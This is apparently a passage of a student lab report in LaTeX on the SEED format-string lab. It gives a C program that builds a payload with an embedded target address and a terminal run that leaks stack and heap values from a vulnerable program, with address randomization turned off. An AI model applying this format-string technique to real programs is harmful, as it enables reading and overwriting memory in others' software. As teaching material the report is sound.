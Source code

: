 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefilec,
	breaklines=true,
}
\begin{lstlisting}
#include <sys/stat.h>
#include <fcntl.h>
int main()
{
  char buf[1000];
  int fp, size;
  unsigned int *address;
  /* Putting any number you like at the beginning of the format string */
  address = (unsigned int *) buf;
  
  /* Put address of secret[1] in first four bytes */
  *address = 0x0804b01c;
  
  /* Getting the rest of the format string */
  scanf("%s", buf+4);
  size = strlen(buf+4) + 4;
  printf("The string length is %d\n", size);
  
  /* Writing buf to "mystring" */
  fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
  if (fp != -1) {
    write(fp, buf, size);
    close(fp);
  } else {
    printf("Open failed!\n");
  }
}
\end{lstlisting}

In order to execute this task we had to disable virtual address space randomization, so that at every consecutive execution of our program the memory addresses of the \texttt{secret} would stay exactly the same. We needed the address to stay to same, in order to run the vulnerable program once, take note of the address, run our program \texttt{write\_string} that creates a file to be used as input, and run vulnerable program again and be sure that the address space is exactly as during previous run.
After turning off address randomization, we had to add an extra memory allocation to the vulnerable program, because the address we were given contained \texttt{0x0C} character which is 'form feed' symbol in ASCII, and \texttt{printf} would not treat entire address as a single value.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of printing memory using a file as standard input,
	label=printf:writefile1,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
The string length is 36
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}
\end{document}

